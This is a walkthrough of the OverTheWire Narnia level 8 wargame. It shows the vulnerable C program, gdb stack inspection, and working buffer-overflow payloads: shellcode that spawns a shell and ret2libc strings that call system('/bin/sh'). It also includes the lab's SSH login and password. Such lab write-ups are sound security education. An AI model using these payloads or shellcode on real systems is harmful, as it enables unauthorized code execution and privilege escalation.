




# Level 8 → Level 9

## Solution
```
ssh narnia8@narnia.labs.overthewire.org -p 2226
```
```
1aBcDgPttG
```
```
cd /narnia ; ls -al
```
```
./narnia8
```






Let's look at the code:

```
cat narnia8.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}
```

Well, I tried a few things in this challenge via gdb. These are the things that worked:
* Entering the `argv[2]` parameter as **shellcode** and overriding the return address from `func()` to `main()` which will return to **shellcode**.

* Overriding the return address from `func()` to `main()` to be the `system()` function, and give it the string `"/bin/sh"` as a parameter.
    * The string can be entered as `argv[2]`
    * Or in the first characters of `argv[1]`

The second way is more elegant (in particular inserting the string into `system()` in `argv[1]`) and therefore I will explain it:


Let's look at the stack just after memset:
```
gdb ./narnia8
```
```
disas func
```



```
b *0x080491a2
```
```
r $(perl -e 'print "A"x19')
```
```
x/40wx $sp
```



* Yellow - `bok`
* Red - `blah`, contain the address of `argv[0]`
* Blue - `$bp` register
* Green - Return falue from the `func` to the `main`.


```
gdb --args ./narnia8 $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
```
r $(perl -e 'print "A"x20 . "\xe3\xd6\xff\xff" . "B"x4 . "\x04\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```

```
r $(perl -e 'print "A"x20 . "\xf5\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\x1e\xd7\xff\xff"') /bin/sh
```

```
r $(perl -e 'print "/bin/sh;" . "A"x12 . "\xfd\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\xfd\xd6\xff\xff"')
```

```
gdb --args ./narnia8 $(perl -e 'print "/bin/sh;" . "A"x12 . "\xfd\xd6\xff\xff" . "B"x4 . "\x70\x81\xc4\xf7" . "C"x4 ."\xfd\xd6\xff\xff"')
```

## Password for the next level:
```

```
